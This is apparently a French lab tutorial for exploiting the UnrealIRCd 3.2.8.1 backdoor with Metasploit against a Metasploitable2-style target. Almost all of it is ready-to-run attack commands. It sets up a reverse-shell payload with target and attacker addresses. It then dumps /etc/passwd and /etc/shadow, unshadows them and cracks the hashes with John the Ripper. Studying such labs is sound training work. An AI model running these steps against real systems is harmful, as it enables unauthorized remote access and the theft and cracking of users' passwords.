

## Exploitation d'UnrealIRCd avec Metasploit


### Commandes à exécuter sur la console Kali

```bash
msfconsole
search ircd
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST 10.6.0.7
set RPORT 6667
set PAYLOAD cmd/unix/reverse
set LHOST 10.6.0.9
run
```
### Astuces:
Mettre en background : Ctrl + Z <br>
Reprendre sessions <br>
session + (numero id)


### Déchiffrer le hash des mots de passe

```bash
# Metasploit
cat /etc/passwd # copier coller dans un fichier passwd.dmp sur la Kali

# Kali
cat /etc/shadow # copier coller dans un fichier shadow.dmp sur la Kali

unshadow passwd.dmp shadow.dmp > credentials

cat /usr/share/wordlists/metasploitable2 # Fichier avec les mots de passe (attention, éviter les caractère type "@")

john --wordlist=/usr/share/wordlists/metasploitable2 credentials

```



> Note : <br>
> Nous sommes dans un cas particulier mais la commande standard ressemple plus à cela :
```bash
 john --wordlist=/usr/share/wordlists/metasploitable2 --format=sha512crypt credentials 
 ```